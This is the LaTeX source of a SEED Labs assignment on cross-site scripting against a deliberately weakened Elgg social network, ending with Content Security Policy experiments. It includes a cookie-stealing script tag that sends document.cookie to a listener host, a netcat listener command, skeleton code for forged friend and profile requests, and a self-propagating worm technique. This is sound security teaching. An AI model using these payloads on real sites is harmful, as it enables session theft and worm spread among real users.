%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\newcommand{\commonfolder}{../../common-files}
\newcommand{\webcommon}{../Web_Common}

\documentclass[11pt]{article}

\usepackage[most]{tcolorbox}
\usepackage{times}
\usepackage{epsf}
\usepackage{epsfig}
\usepackage{amsmath, alltt, amssymb, xspace}
\usepackage{wrapfig}
\usepackage{fancyhdr}
\usepackage{url}
\usepackage{verbatim}
\usepackage{fancyvrb}
\usepackage{adjustbox}
\usepackage{listings}
\usepackage{color}
\usepackage{subfigure}
\usepackage{cite}
\usepackage{sidecap}
\usepackage{pifont}
\usepackage{mdframed}
\usepackage{textcomp}
\usepackage{enumitem}


% Horizontal alignment
\topmargin      -0.50in  % distance to headers
\oddsidemargin  0.0in
\evensidemargin 0.0in
\textwidth      6.5in
\textheight     8.9in 

\newcommand{\todo}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{TODO: #1}}
\vspace{0.1in}
}


\newcommand{\unix}{{\tt Unix}\xspace}
\newcommand{\linux}{{\tt Linux}\xspace}
\newcommand{\minix}{{\tt Minix}\xspace}
\newcommand{\ubuntu}{{\tt Ubuntu}\xspace}
\newcommand{\setuid}{{\tt Set-UID}\xspace}
\newcommand{\openssl} {\texttt{openssl}}


\pagestyle{fancy}
\lhead{\bfseries SEED Labs}
\chead{}
\rhead{\small \thepage}
\lfoot{}
\cfoot{}
\rfoot{}


\definecolor{dkgreen}{rgb}{0,0.6,0}
\definecolor{gray}{rgb}{0.5,0.5,0.5}
\definecolor{mauve}{rgb}{0.58,0,0.82}
\definecolor{lightgray}{gray}{0.90}


\lstset{%
  frame=none,
  language=,
  backgroundcolor=\color{lightgray},
  aboveskip=3mm,
  belowskip=3mm,
  showstringspaces=false,
%  columns=flexible,
  basicstyle={\small\ttfamily},
  numbers=none,
  numberstyle=\tiny\color{gray},
  keywordstyle=\color{blue},
  commentstyle=\color{dkgreen},
  stringstyle=\color{mauve},
  breaklines=true,
  breakatwhitespace=true,
  tabsize=3,
  columns=fullflexible,
  keepspaces=true,
  escapeinside={(*@}{@*)}
}

\newcommand{\newnote}[1]{
\vspace{0.1in}
\noindent
\fbox{\parbox{1.0\textwidth}{\textbf{Note:} #1}}
%\vspace{0.1in}
}


%% Submission
\newcommand{\seedsubmission}{You need to submit a detailed lab report, with screenshots,
to describe what you have done and what you have observed.
You also need to provide explanation
to the observations that are interesting or surprising.
Please also list the important code snippets followed by
explanation. Simply attaching code without any explanation will not
receive credits.}

%% Book
\newcommand{\seedbook}{\textit{Computer \& Internet Security: A Hands-on Approach}, 2nd
Edition, by Wenliang Du. See details at \url{https://www.handsonsecurity.net}.}

%% Videos
\newcommand{\seedisvideo}{\textit{Internet Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

\newcommand{\seedcsvideo}{\textit{Computer Security: A Hands-on Approach},
by Wenliang Du. See details at \url{https://www.handsonsecurity.net/video.html}.}

%% Lab Environment
\newcommand{\seedenvironment}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentA}{This lab has been tested on our pre-built
Ubuntu 16.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentB}{This lab has been tested on our pre-built
Ubuntu 20.04 VM, which can be downloaded from the SEED website. }

\newcommand{\seedenvironmentAB}{This lab has been tested on our pre-built
Ubuntu 16.04 and 20.04 VMs, which can be downloaded from the SEED website. }

\newcommand{\nodependency}{Since we use containers to set up the lab environment, 
this lab does not depend too much on our SEED VM. You can do this lab
using other VMs or physical machines. }







\newcommand{\seedlabcopyright}[1]{
\vspace{0.1in}
\fbox{\parbox{6in}{\small Copyright \copyright\ {#1}\ \ by Wenliang Du.\\
      This work is licensed under a Creative Commons
      Attribution-NonCommercial-ShareAlike 4.0 International License.
      If you remix, transform, or build upon the material, 
      this copyright notice must be left intact, or reproduced in a way that is reasonable to
      the medium in which the work is being re-published.}}
\vspace{0.1in}
}







\lhead{\bfseries SEED Labs -- Cross-Site Scripting Attack Lab}

\begin{document}

\begin{center}
{\LARGE Cross-Site Scripting (XSS) Attack Lab}
\vspace{0.1in}\\
{\Large (Web Application: Elgg)}
\end{center}

\seedlabcopyright{2006 - 2020}

\section{Overview}

Cross-site scripting (XSS) is a type of vulnerability commonly found
in web applications.  This vulnerability makes it possible for
attackers to inject malicious code (e.g. JavaScript programs) into victim's
web browser. Using this malicious code, attackers can steal a
victim's credentials, such as session cookies.  The access control 
policies~(i.e., the same origin policy) employed by browsers to protect
those credentials can be bypassed by exploiting XSS vulnerabilities.

To demonstrate what attackers can do by exploiting XSS
vulnerabilities, we have set up a web application named 
{\tt Elgg} in our pre-built Ubuntu VM image.
{\tt Elgg} is a very popular open-source web application for
social network, and it has implemented a number of countermeasures 
to remedy the XSS threat. To demonstrate how XSS attacks work, we 
have commented out these countermeasures in Elgg in our installation, 
intentionally making Elgg vulnerable to XSS attacks.  
Without the countermeasures, users 
can post any arbitrary message, including JavaScript
programs, to the user profiles.  

In this lab, students need to exploit this vulnerability to 
launch an XSS attack on the modified {\tt Elgg}, in a way that is 
similar to what Samy Kamkar
did to {\tt MySpace} in 2005 through the notorious Samy worm. 
The ultimate goal of this attack is to spread an XSS worm among the users,
such that whoever views an infected user profile will be infected,
and whoever is infected will add you (i.e., the attacker) to 
his/her friend list. This lab covers the following topics:

\begin{itemize}[noitemsep]
 \item Cross-Site Scripting attack
 \item XSS worm and self-propagation 
 \item Session cookies
 \item HTTP GET and POST requests
 \item JavaScript and Ajax
 \item Content Security Policy (CSP) 
\end{itemize}


\paragraph{Readings.}
Detailed coverage of the Cross-Site Scripting attack can be found in the following:

\begin{itemize}
\item Chapter 10 of the SEED Book, \seedbook
\end{itemize}


\paragraph{Lab environment.} 
\seedenvironmentB  
\nodependency


% *******************************************
% SECTION
% ******************************************* 
\section{Lab Environment Setup}


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{DNS Setup} 

We have set up several websites for this lab. They are hosted 
by the container \texttt{10.9.0.5}. We need to map 
the names of the web server to this IP address. 
Please add the following entries to \texttt{/etc/hosts}.
You need to use the root privilege to modify this file:

\begin{lstlisting}
10.9.0.5        www.xsslabelgg.com
10.9.0.5        www.example32a.com
10.9.0.5        www.example32b.com
10.9.0.5        www.example32c.com
10.9.0.5        www.example60.com
10.9.0.5        www.example70.com
\end{lstlisting}
 

% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Container Setup and Commands}

%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
Please download the
\texttt{Labsetup.zip} file to your VM from the lab's website,
unzip it, enter the \texttt{Labsetup} folder, and 
use the \texttt{docker-compose.yml} file to 
set up the lab environment. Detailed explanation
of the content in this file and all the involved 
\texttt{Dockerfile} can be found from the 
user manual, which is linked to the website of this lab.
If this is the first time you set up a SEED lab environment
using containers, it is very important that you read 
the user manual. 

In the following, we list some of the commonly
used commands related to Docker and Compose. 
Since we are going to use 
these commands very frequently, we have created aliases for them
in the \texttt{.bashrc} file (in our provided SEEDUbuntu 20.04 VM).


\begin{lstlisting}
$ docker-compose build  # Build the container image
$ docker-compose up     # Start the container
$ docker-compose down   # Shut down the container

// Aliases for the Compose commands above
$ dcbuild       # Alias for: docker-compose build
$ dcup          # Alias for: docker-compose up
$ dcdown        # Alias for: docker-compose down
\end{lstlisting}


All the containers will be running in the background. To run
commands on a container, we often need to get a shell on
that container. We first need to use the \texttt{"docker ps"}  
command to find out the ID of the container, and then
use \texttt{"docker exec"} to start a shell on that 
container. We have created aliases for them in
the \texttt{.bashrc} file.

\begin{lstlisting}
$ dockps        # Alias for: docker ps --format "{{.ID}}  {{.Names}}" 
$ docksh <id>   # Alias for: docker exec -it <id> /bin/bash

# The following example shows how to get a shell inside hostC
$ dockps
b1004832e275  hostA-10.9.0.5
0af4ea7a3e2e  hostB-10.9.0.6
9652715c8e0a  hostC-10.9.0.7

$ docksh 96
root@9652715c8e0a:/#  

# Note: If a docker command requires a container ID, you do not need to 
#       type the entire ID string. Typing the first few characters will 
#       be sufficient, as long as they are unique among all the containers. 
\end{lstlisting}


If you encounter problems when setting up the lab environment, 
please read the ``Common Problems'' section of the manual
for potential solutions.


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Elgg Web Application}

We use an open-source web application called {\tt Elgg} in this lab.
{\tt Elgg} is a web-based social-networking application.
It is already set up in the provided container images, 
and its URL is \url{http://www.xsslabelgg.com}.
We use two containers, one running the web server (\texttt{10.9.0.5}) ,
and the other running the MySQL database (\texttt{10.9.0.6}). 
The IP addresses for these two containers are hardcoded in various 
places in the configuration, so please do not change them from
the \texttt{docker-compose.yml} file. 


% MySQL database
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%

\paragraph{MySQL database.}
Containers are usually disposable, so once it
is destroyed, all the data inside the containers are lost.
For this lab, we do want to keep the data in the
MySQL database, so we do not lose our work when we shutdown
our container. To achieve this,
we have mounted the \texttt{mysql\_data} folder on
the host machine (inside
\texttt{Labsetup}, it will be created after the
MySQL container runs once) to the
\texttt{/var/lib/mysql} folder
inside the MySQL container.
This folder is where
MySQL stores its database. Therefore,
even if the container is destroyed,
data in the database are still kept.
If you do want to start from a clean
database, you can remove this folder:

\begin{lstlisting}
$ sudo rm -rf mysql_data
\end{lstlisting}


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%%  Copyright by Wenliang Du.                                       %%
%%  This work is licensed under the Creative Commons                %%
%%  Attribution-NonCommercial-ShareAlike 4.0 International License. %%
%%  To view a copy of this license, visit                           %%
%%  http://creativecommons.org/licenses/by-nc-sa/4.0/.              %%
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


\paragraph{User accounts.}
We have created several user accounts on the {\tt Elgg} server; 
the user name and passwords are given in the following.


\begin{lstlisting}
----------------------------
UserName  | Password
----------------------------
admin     |  seedelgg
alice     |  seedalice 
boby      |  seedboby 
charlie   |  seedcharlie 
samy      |  seedsamy 
----------------------------
\end{lstlisting}





%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%


% *******************************************
% SECTION
% ******************************************* 
\section{Lab Tasks}

When you copy and paste code from this PDF file, very often, the 
quotation marks, especially single quote, may turn into 
a different symbol that looks similar. They will cause 
errors in the code, so keep that in mind. When that happens,
delete them, and manually type those symbols.



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Preparation: Getting Familiar with the \texttt{"HTTP Header Live"} tool}

In this lab, we need to construct HTTP requests. To figure out 
what an acceptable HTTP request in Elgg looks like, we need to 
be able to capture and analyze HTTP requests. 
We can use a Firefox add-on called \texttt{"HTTP Header Live"} for this
purpose. Before you start working on this lab, you should 
get familiar with this tool.
Instructions on how to use this tool is given in the Guideline
section~(\S~\ref{web:sec:httpheaderlive}).



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 1: Posting a Malicious Message to Display an Alert Window}

The objective of this task is to embed a JavaScript program in your 
{\tt Elgg} profile, such that when another user views your profile, 
the JavaScript program will be executed and an alert window
will be displayed. The following JavaScript program will display an alert window: 
\begin{lstlisting}
<script>alert('XSS');</script> 
\end{lstlisting}
If you embed the above JavaScript code in your profile (e.g. in the brief
description field), then any user who views your profile will see the alert window. 

In this case, the JavaScript code is short enough to be typed into the 
short description field. If you want to run a long JavaScript, but you are limited
by the number of characters you can type in the form, you can store the 
JavaScript program in a standalone file, save it with the .js extension, and 
then refer to it using the {\tt src} attribute in the {\tt <script>} tag. 
See the following example:
\begin{lstlisting}
<script type="text/javascript" 
        src="http://www.example.com/myscripts.js">
</script>
\end{lstlisting}
In the above example, the page will fetch the JavaScript program from
\url{http://www.example.com}, which can be any web server.



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 2: Posting a Malicious Message to Display Cookies}

The objective of this task is to embed a JavaScript program in your 
{\tt Elgg} profile, such that when another user views your profile,
the user's cookies will be displayed in the alert window.
This can be done by adding some additional code to
the JavaScript program in the previous task:
\begin{lstlisting}
<script>alert(document.cookie);</script> 
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 3: Stealing Cookies from the Victim's Machine}

In the previous task, the malicious JavaScript code written by 
the attacker can print out the
user's cookies, but only the user can see the cookies, not the 
attacker.  In this task, the attacker wants the JavaScript code 
to send the cookies to himself/herself.
To achieve this, the malicious JavaScript code needs to 
send an HTTP request to the attacker, with the cookies appended to 
the request.

We can do this by having the malicious JavaScript insert an {\tt $<$img$>$} tag with
its {\tt src} attribute set to the attacker's machine.  When the JavaScript inserts
the {\tt img} tag, the browser tries to load the image from the URL in
the {\tt src} field; this results in an HTTP GET request sent to the attacker's
machine. The
JavaScript given below sends the cookies to the port 5555 of the
attacker's machine (with IP address {\tt 10.9.0.1}), where the attacker has a TCP server
listening to the same port.  

\begin{lstlisting}
<script>document.write('<img src=http://10.9.0.1:5555?c=' 
                       + escape(document.cookie) + '   >'); 
</script> 
\end{lstlisting}


A commonly used program by attackers is \texttt{netcat} (or \texttt{nc}) , which, if running with
the \texttt{"-l"} option, becomes a TCP server that listens for a connection on the specified
port. This server program basically prints out whatever is sent by the client and sends to the
client whatever is typed by the user running the server. Type the command below to listen on
port \texttt{5555}:

\begin{lstlisting}
$ nc -lknv 5555 
\end{lstlisting}

\noindent The \texttt{-l} option is used to specify that nc should listen for an incoming
connection rather than initiate a connection to a remote host. The \texttt{-nv} option is used to
have \texttt{nc} give more verbose output. The \texttt{-k} option means when a connection
is completed, listen for another one.


% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 4: Becoming the Victim's Friend}

In this and next task, we will perform an attack similar to what Samy did to MySpace in 2005
(i.e. the Samy Worm). We will write an XSS worm that adds Samy as a friend to any other user
that visits Samy's page. This worm does not self-propagate; in  task 6, we will make it
self-propagating.

In this task, we need to write a malicious JavaScript program that forges HTTP requests
directly from the victim's browser, without the intervention of the attacker.  The objective of
the attack is to add Samy as a friend to the victim. We have already created a user called Samy
on the {\tt Elgg} server (the user name is {\tt samy}).


To add a friend for the victim, we should first find out how a legitimate 
user adds a friend in {\tt Elgg}.
More specifically, we need to figure out what are sent to the server when a user 
adds a friend. Firefox's \texttt{HTTP} inspection tool 
can help us get the information. It can display the contents of any HTTP request message sent 
from the browser.  From the contents, we can identify all
the parameters in the request. Section~\ref{xss:sec:guidelines}
provides guidelines on how to use the tool.


Once we understand what the add-friend HTTP request look like, 
we can write a JavaScript program to send out the same HTTP request. We provide a skeleton
JavaScript code that aids in completing the task.

\begin{lstlisting}
<script type="text/javascript">
window.onload = function () {
  var Ajax=null;

  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;          (*@ \ding{192} @*)
  var token="&__elgg_token="+elgg.security.token.__elgg_token; (*@ \ding{193} @*)

  //Construct the HTTP request to add Samy as a friend.
  var sendurl=...;  //FILL IN

  //Create and send Ajax request to add friend
  Ajax=new XMLHttpRequest();
  Ajax.open("GET",sendurl,true);
  Ajax.setRequestHeader("Host","www.xsslabelgg.com");
  Ajax.setRequestHeader("Content-Type","application/x-www-form-urlencoded");
  Ajax.send();
} 
</script>
\end{lstlisting}


The above code should be placed in the \texttt{"About Me"} field of Samy's profile page. 
This field provides two editing modes: Editor mode (default) and Text mode. 
The Editor mode adds extra HTML code to the text typed into the field, while
the Text mode does not. Since we do not
want any extra code added to our attacking code, the Text mode should be enabled before entering
the above JavaScript code. This can be done by clicking on 
\texttt{"Edit HTML"}, which can be found at the top right
of the \texttt{"About Me"} text field.


\paragraph{Questions.} Please answer the following questions:

\begin{itemize}
\item \textbf{Question 1:} Explain the purpose of Lines \ding{192} and \ding{193}, why 
are they are needed?

\item \textbf{Question 2:} If the \texttt{Elgg} application only provide 
the Editor mode for the \texttt{"About Me"} field, i.e., you cannot 
switch to the Text mode, can you still launch a successful attack? 
\end{itemize}
 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 5: Modifying the Victim's Profile}


The objective of this task is to modify the victim's profile when the victim visits Samy's
page.  Specifically, modify the victim's \texttt{"About Me"} field. We will write an XSS worm
to complete the task. This worm does not self-propagate; in task 6, we will make it self-propagating.

Similar to the previous task, we need to write a malicious JavaScript program that forges HTTP
requests directly from the victim's browser, without the intervention of the attacker.  
To modify profile, we should first find out how a legitimate 
user edits or modifies his/her profile in {\tt Elgg}. More specifically, we need to figure out
how the HTTP POST request is constructed to modify a user's profile.  
We will use Firefox's {\tt HTTP} inspection tool. Once we understand 
how the modify-profile HTTP POST request looks like, we can
write a JavaScript program to send out the same HTTP request. We provide a skeleton JavaScript
code that aids in completing the task.

\begin{lstlisting}
<script type="text/javascript">
window.onload = function(){
  //JavaScript code to access user name, user guid, Time Stamp __elgg_ts 
  //and Security Token __elgg_token
  var userName="&name="+elgg.session.user.name;
  var guid="&guid="+elgg.session.user.guid;
  var ts="&__elgg_ts="+elgg.security.token.__elgg_ts;
  var token="&__elgg_token="+elgg.security.token.__elgg_token;

  //Construct the content of your url.
  var content=...;     //FILL IN

  var samyGuid=...;    //FILL IN
  if(elgg.session.user.guid!=samyGuid)           (*@ \ding{192} @*)
  {
     //Create and send Ajax request to modify profile
     var Ajax=null;
     Ajax=new XMLHttpRequest();
     Ajax.open("POST",sendurl,true);
     Ajax.setRequestHeader("Host","www.xsslabelgg.com");
     Ajax.setRequestHeader("Content-Type",
                           "application/x-www-form-urlencoded");
     Ajax.send(content);
  }
}
</script>
\end{lstlisting}

Similar to Task 4, the above code should be placed in the \texttt{"About Me"} field of Samy's
profile page, and the Text mode should be enabled before entering the above JavaScript code.


\paragraph{Questions.} Please answer the following questions:

\begin{itemize}
\item \textbf{Question 3:} Why do we need Line \ding{192}? Remove this line, and repeat 
your attack. Report and explain your observation.
\end{itemize}
 



% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Task 6: Writing a Self-Propagating XSS Worm}

To become a real worm, the malicious JavaScript program should be able to propagate itself.
Namely, whenever some people view an infected profile, 
not only will their profiles be modified, the worm will also be 
propagated to their profiles, further affecting others who view these newly infected profiles.
This way, the more people view the infected profiles, the faster the worm can propagate. 
This is exactly the same mechanism used by the Samy Worm: 
within just 20 hours of its October 4, 2005 release, over one million users 
were affected, making Samy one of the fastest spreading viruses of all time.
The JavaScript code that can achieve this is called 
a {\em self-propagating cross-site scripting worm}. In this task, you need to 
implement such a worm, which not only modifies the victim's profile and adds the user
``Samy'' as a friend, but also add a copy of the worm itself to the victim's profile, so the
victim is turned into an attacker.


To achieve self-propagation, when the malicious JavaScript modifies the victim's profile,
it should copy itself to the victim's profile. There are several 
approaches to achieve this, and we will discuss two common approaches.

\paragraph{Link Approach:} If the worm is included using the {\tt src} attribute in the {\tt <script>} tag,
writing self-propagating worms is much easier. 
We have discussed the {\tt src} attribute in Task 1, and an example
is given below. The worm can simply copy the following
{\tt <script>} tag to the victim's profile, essentially
infecting the profile with the same worm.

\begin{lstlisting}
<script type="text/javascript" src="http://www.example.com/xss_worm.js">
</script>
\end{lstlisting} 

\paragraph{DOM Approach:} If the entire JavaScript program (i.e., the worm) is 
    embedded in the infected profile, 
    to propagate the worm to another profile, the worm code can use
    DOM APIs to retrieve a copy of itself from the web page.
    An example of using DOM APIs is given below. This code
    gets a copy of itself, and displays it in an alert window:

{\footnotesize
\begin{lstlisting}
<script id="worm">
   var headerTag = "<script id=\"worm\" type=\"text/javascript\">"; (*@ \ding{192} @*)
   var jsCode = document.getElementById("worm").innerHTML;          (*@ \ding{193} @*)
   var tailTag = "</" + "script>";                                  (*@ \ding{194} @*)
   
   var wormCode = encodeURIComponent(headerTag + jsCode + tailTag); (*@ \ding{195} @*)
      
   alert(jsCode);
</script>
\end{lstlisting}
}


It should be noted that {\tt innerHTML} (line \ding{193}) only gives us the inside part of the
code, not including the surrounding {\tt script} tags. We just need to add the beginning tag
{\tt <script id="worm">} (line \ding{192}) and the ending tag {\tt </script>} (line \ding{194})
to form an identical copy of the malicious code.

When data are sent in HTTP POST requests with the {\tt Content-Type} set to {\tt
application/x-www-\\form-urlencoded}, which is the type used in our code, the data should also
be encoded. The encoding scheme is called \textit{URL encoding}, which replaces
non-alphanumeric characters in the data with {\tt \%HH}, a percentage sign and two hexadecimal
digits representing the ASCII code of the character. The {\tt encodeURICom\\ponent()} function
in line \ding{195} is used to URL-encode a string.

\paragraph{Note:} In this lab, you can try both Link and DOM approaches, but the DOM approach
is required, because it is more challenging and it does not rely on external JavaScript code.




% -------------------------------------------
% SUBSECTION
% ------------------------------------------- 
\subsection{Elgg's Countermeasures}


This sub-section is only for information, and there is no specific task to do. 
It shows how {\tt Elgg} defends against the XSS attack. 
{\tt Elgg} does have built-in countermeasures, and
we have deactivated and commented out them to make the
attack work. Actually, {\tt Elgg} uses two countermeasures. 
One is a custom built security plugin {\tt HTMLawed}, 
which, on activation, validates the user input and removes the tags from the input.
This specific plugin is registered to the {\tt "function filter\_tags"} in the
\url{elgg/engine/lib/input.php} file. 


To turn on the countermeasure, login to the application as admin, goto {\tt
Account->administration} (top right of screen) $\rightarrow$ {\tt plugins} (on the right
panel), and click on {\tt security and spam} under the filter options at the top of the page.
You should find the {\tt HTMLawed} plugin below.  Click on {\tt Activate} to enable the
countermeasure.


In addition to the {\tt HTMLawed 1.9} security plugin in {\tt Elgg}, there is another built-in
PHP method called {\tt “htmlspecialchars()”}, which is used to encode the special characters in
user input, such as {\tt "<"} to {\tt "\&lt"}, {\tt ">"} to {\tt “\&gt”}, etc.
Please go to \url{/var/www/XSS/Elgg/vendor/elgg/elgg/views/default/output/} and
find the function call {\tt “htmlspecialchars”} in {\tt text.php}, {\tt url.php}, {\tt
dropdown.php} and {\tt email.php} files. Uncomment the corresponding {\tt "htmlspecialchars"}
function calls in each file. 



% *******************************************
% SECTION
% *******************************************
\section{Task 7: Defeating XSS Attacks Using CSP}

The fundamental problem of the XSS vulnerability is that HTML allows JavaScript code to be
mixed with data. Therefore, to fix this fundamental problem, we need to separate code from
data. There are two ways to include JavaScript code inside an HTML page, one is
the inline approach, and the other is the link approach.
The inline approach directly places code inside the page, while the
link approach puts the code in an external file, and then link to it
from inside the page.

The inline approach is the culprit of the XSS vulnerability, because
browsers do not know where the code originally comes from: is it from the trusted
web server or from untrusted users? Without such knowledge, browsers
do not know which code is safe to execute, and
which one is dangerous.
The link approach provides a very important piece of information to
browsers, i.e., where
the code comes from. Websites can then tell browsers which sources are
trustworthy, so browsers know which piece of code is safe to execute.
Although attackers can also use the link approach to
include code in their input, they cannot place their code in
those trustworthy places.

How websites tell browsers which code source is trustworthy is achieved
using a security mechanism called Content Security Policy (CSP). This
mechanism is specifically designed to defeat XSS and ClickJacking attacks.
It has become a standard, which is supported by most browsers nowadays.
CSP not only restricts JavaScript code, it also restricts other page contents, such as
limiting where pictures, audio, and video can come from, as well as restricting
whether a page can be put inside an iframe or not (used for defeating ClickJacking
attacks). Here, we will only focus on how to use CSP to defeat XSS attacks.



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Experiment Website setup} 

To conduct experiments on CSP, we will set up several websites. 
Inside the \texttt{Labsetup/image\_www} docker image folder, 
there is a file called \texttt{apache\_csp.conf}.
It defines five websites, which share the same folder, but
they will use different files in this folder. 
The \texttt{example60} and \texttt{example70} sites are 
used for hosting JavaScript code.  The 
\texttt{example32a}, \texttt{example32b}, and 
\texttt{example32c} are the three websites that 
have different CSP configurations. Details of the configuration 
will be explained later.


\paragraph{Changing the configuration file.}
In the experiment, you need to modify this Apache 
configuration file (\texttt{apache\_csp.conf}). If you make a modification
directly on the file inside the image folder, you need to rebuild the image
and restart the container, so the change can take effect. 

You can also modify the file while the container is running. 
The downside of this 
option is that in order to keep the docker image small, 
we have only installed a very simple text editor called \texttt{nano} 
inside the container. It should be sufficient for simple editing.   
If you do not like it, you can always add an installation command
to the \texttt{Dockerfile} to install your favorite command-line
text editor. 
On the running container, you can find the configuration
file \texttt{apache\_csp.conf} inside the 
\path{/etc/apache2/sites-available} folder.  
After making changes, you need to restart the Apache server for the 
changes to take effect:

\begin{lstlisting}
# service apache2 restart
\end{lstlisting}


\paragraph{DNS Setup.}
We will access the above websites from our VM. 
To access them through their respective URLs, 
we need to add the following entries to the 
\texttt{/etc/hosts} file (if you have not done so already
at the beginning of the lab), so these hostnames are mapped to 
the IP address of the server container (\texttt{10.9.0.5}). 
You need to use the root privilege to 
change this file (using \texttt{sudo}).

\begin{lstlisting}
10.9.0.5       www.example32a.com
10.9.0.5       www.example32b.com
10.9.0.5       www.example32c.com
10.9.0.5       www.example60.com
10.9.0.5       www.example70.com
\end{lstlisting}


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{The web page for the experiment}

The \texttt{example32(a|b|c)} servers host 
the same web page \texttt{index.html}, which 
is used to demonstrate how the CSP policies work. 
In this page, there are six areas, \texttt{area1} to \texttt{area6}.
Initially, each area displays \texttt{"Failed"}. The page
also includes six pieces of JavaScript code, each trying to
write \texttt{"OK"} to its corresponding area.  If we can see
\texttt{OK} in an area, that means, the JavaScript code corresponding
to that area has been executed successfully; otherwise, we would see
\texttt{Failed}. There is also a button on this page. 
If it is clicked, a message will pop up, if the underlying 
JavaScript code gets triggered. 


\begin{lstlisting}[caption={The experiment web page \texttt{index.html}}]
<html>
<h2 >CSP Experiment</h2>
<p>1. Inline: Nonce (111-111-111): <span id='area1'>Failed</span></p>
<p>2. Inline: Nonce (222-222-222): <span id='area2'>Failed</span></p>
<p>3. Inline: No Nonce: <span id='area3'>Failed</span></p>
<p>4. From self: <span id='area4'>Failed</span></p>
<p>5. From www.example60.com: <span id='area5'>Failed</span></p>
<p>6. From www.example70.com: <span id='area6'>Failed</span></p>
<p>7. From button click: 
      <button onclick="alert('JS Code executed!')">Click me</button></p>

<script type="text/javascript" nonce="111-111-111">
document.getElementById('area1').innerHTML = "OK";
</script>

<script type="text/javascript" nonce="222-222-222">
document.getElementById('area2').innerHTML = "OK";
</script>

<script type="text/javascript">
document.getElementById('area3').innerHTML = "OK";
</script>

<script src="script_area4.js"> </script>
<script src="http://www.example60.com/script_area5.js"> </script>
<script src="http://www.example70.com/script_area6.js"> </script>
</html>

\end{lstlisting}
 


% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Setting CSP Policies}  

CSP is set by the web server as 
an HTTP header. There are two typical ways to set the header, 
by the web server (such as Apache) or by the web application. 
In this experiment, we will conduct experiments using 
both approaches. 

\paragraph{CSP configuration by Apache.}
Apache can set HTTP headers for all the responses, so we can
use Apache to set CSP policies. In our configuration, 
we set up three websites, but only the second one sets 
CSP policies (the lines marked by \ding{110}). 
With this setup, when we visit \texttt{example32b}, 
Apache will add the specified CSP header to all 
the response from this site. 


\begin{lstlisting}
# Purpose: Do not set CSP policies
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32a.com
    DirectoryIndex index.html
</VirtualHost>

# Purpose: Setting CSP policies in Apache configuration
<VirtualHost *:80>
    DocumentRoot /var/www/csp
    ServerName www.example32b.com
    DirectoryIndex index.html
    Header set Content-Security-Policy " \          (*@\ding{110}@*)
             default-src 'self'; \                  (*@\ding{110}@*)
             script-src 'self' *.example70.com \    (*@\ding{110}@*)
           "
</VirtualHost>

# Purpose: Setting CSP policies in web applications
<VirtualHost *:80>                                  (*@\ding{108}@*)
    DocumentRoot /var/www/csp
    ServerName www.example32c.com
    DirectoryIndex phpindex.php
</VirtualHost>
\end{lstlisting}
 

\paragraph{CSP configuration by web applications.}
For the third \texttt{VirtualHost} entry in our configuration
file (marked by \ding{108}), we did not set up any CSP policy.
However, instead of accessing \texttt{index.html}, the 
entry point of this site is \texttt{phpindex.php}, which
is a PHP program. This program, listed below, adds 
a CSP header to the response generated from the program. 

\begin{lstlisting}
<?php
  $cspheader = "Content-Security-Policy:".
               "default-src 'self';".
               "script-src 'self' 'nonce-111-111-111' *.example70.com".
               "";
  header($cspheader);
?>

<?php include 'index.html';?>
\end{lstlisting}



% -------------------------------------------
% SUBSECTION
% -------------------------------------------
\subsection{Lab tasks} 


After starting the containers and making changes to the \texttt{/etc/hosts}, please visit
the following URLs from your VM. 

\begin{lstlisting}
http://www.example32a.com
http://www.example32b.com
http://www.example32c.com
\end{lstlisting}

\begin{enumerate}

\item Describe and explain your observations when you visit these websites.

\item Click the button in the web pages from all the three websites, describe and 
explain your observations. 

\item Change the server configuration on \texttt{example32b} (modify the Apache 
configuration), so Areas 5 and 6 display OK. 
Please include your modified configuration in the lab report.

\item Change the server configuration on \texttt{example32c} (modify the PHP code), so 
Areas 1, 2, 4, 5, and 6 all display \texttt{OK}. 
Please include your modified configuration in the lab report.

\item Please explain why CSP can help prevent Cross-Site Scripting attacks. 

\end{enumerate}
 




% *******************************************
% SECTION
% ******************************************* 
\section{Guidelines}
